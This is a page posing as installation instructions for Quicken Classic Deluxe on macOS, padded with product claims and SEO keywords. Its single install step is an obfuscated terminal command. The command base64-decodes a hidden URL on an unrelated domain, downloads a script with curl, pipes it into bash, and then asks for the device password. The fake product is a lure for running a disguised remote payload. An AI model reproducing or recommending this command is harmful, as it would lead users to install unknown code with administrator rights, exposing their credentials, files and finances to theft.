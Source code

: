# 💼 Quicken Classic Deluxe for Mac — Legacy Finance, Modern Control

📌 About Quicken Classic Deluxe  
Quicken Classic Deluxe is the long-standing personal finance software trusted by generations of Mac users. It provides essential tools to track spending, manage accounts, plan budgets, and monitor investments — all in a familiar and stable environment.  
Designed for those who prefer local data control and traditional workflows, it supports manual entry or bank syncing, flexible category management, scheduled bill tracking, and multi-account views.  
The app runs natively on macOS with a clean interface, fast performance, and no reliance on cloud storage — keeping your financial life private, portable, and under your full control.  
Ideal for users who appreciate tried-and-true financial planning without subscriptions or invasive data syncing.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
   /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```  
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.quicken.com/sites/default/files/image-2019-10-18-19-00-37-259.png)  
- ![](https://www.quicken.com/blog/wp-content/uploads/2023/10/Income-by-Security-Report-768x577-1.png)  

## 🎯 Key Features  
⚡️ Trusted Finance Tools: Classic budgeting and account management features.  
🔒 Local Data Storage: Keeps your financial information offline and secure.  
⚙️ Bank Sync or Manual: Choose between automatic or fully manual workflows.  
🚀 Lightweight Interface: Runs fast, even on older Macs.  
🎨 Clean Design: Familiar layout with easy-to-read reports and charts.  
📊 Investment Tracking: Monitor portfolios, performance, and asset classes.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`quicken classic deluxe mac` · `offline finance software mac` · `mac personal budget manager` · `legacy quicken mac` · `investment tracker macos` · `account reconciliation mac` · `mac banking tracker` · `mac financial planning app` · `quicken non-subscription mac` · `mac checkbook software` · `mac transaction manager` · `quicken portfolio mac` · `classic money tool mac` · `mac scheduled bills tracker` · `quicken local data mac`
